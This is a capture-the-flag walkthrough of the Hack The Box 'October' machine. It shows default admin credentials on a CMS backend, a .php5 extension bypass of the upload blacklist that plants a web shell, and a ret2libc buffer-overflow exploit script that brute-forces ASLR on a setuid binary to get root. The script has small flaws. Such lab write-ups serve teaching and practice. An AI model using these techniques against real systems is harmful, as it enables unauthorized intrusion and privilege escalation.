

# USER

Web based port open, however it seems to be throttling gobuster.

Looking at command vulns I can find a `/backend` path. This gives us a login

Trying the classic `admin:admin` gives us a login

With so research on `exploit-db` I found:

```
1. PHP upload protection bypass
-------------------------------

Authenticated user with permission to upload and manage media contents can
upload various files on the server. Application prevents the user from
uploading PHP code by checking the file extension. It uses black-list based
approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
Definitions.php:blockedExtensions().

==================== source start ========================
106 <?php
107 protected function blockedExtensions()
108 {
109         return [
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }
====================  source end  ========================

We can easily bypass file upload restriction on those systems by using an
alternative extension, e.g if we upload sh.php5 on the server:
```

Uploading a shell with `.php5` gives us upload ability

Clicking the `public url` link runs our shell. This provides us with a shell!

Navigating to `/home/harry` gives us the `user.txt`

# ROOT

The systems contains a sticky binary called `ovrflw`.

```
/usr/local/bin/ovrflw
```

The name is a big hint of what is required.

`checksec` shows that the binary has NX enabled; therefore no shellcode.

```
[*] '/root/GitHub/HackTheBox/October/ovrflw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

This means we're going to have to construct a `libc` exploit. Using the `pattern create/offset` tool within peda 
we can see that the offset is set at 112.

The first step is to gather the addresses for `libc`, `libc@system` and `bin/sh` within `libc`.

### `libc`
```
$ ldd ovrflw

    linux-gate.so.1 (0xf7f20000)
    libc.so.6 => /lib32/libc.so.6 (0xf7d21000)
    /lib/ld-linux.so.2 (0xf7f21000)
```

### `system`
```
$ readelf -s /lib32/libc.so.6 | grep system

   257: 0012a2c0   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   658: 0003e9e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1525: 0003e9e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

### `/bin/sh`
```
$ strings -a -t x /lib32/libc.so.6 | grep "/bin/sh"
 17eaaa /bin/sh
```

Putting these values together gives us an exploit. However, on the target machine ALSR is active meaning the position of `libc` changes every execution.

Due to machine being 32-bit based, only 3 bytes in the address vary

e.g.

```
0xf7d21000
0xf7d11000
0xf7d9f000
0xf7d1b000

0xf7XXX000
```

This is easily brute forceable with only 512 potential options.

Bringing all these aspects together gives us this exploit script:

```python
import os
import sys
import struct
from subprocess import call

BUFFER_SIZE = 112

junk = b"\x41" * BUFFER_SIZE

### Platform Dependent Vars ###
libc    = 0xf7dbf000
sys_off = 0x03e9e0
bin_off = 0x17eaaa
###############################

# Attempts to brute force ALSR.
for i in range(512):

    # Addresses
    sys_ptr = struct.pack("<I", libc + sys_off)
    bin_ptr = struct.pack("<I", libc + bin_off)
    exit_ptr = struct.pack("<I", libc + sys_off)

    payload = b""
    payload += junk
    payload += sys_ptr
    payload += exit_ptr
    payload += bin_ptr

    ret = call(["/usr/local/bin/ovrflw", payload])
```

Running this on the system gives us a `root` shell!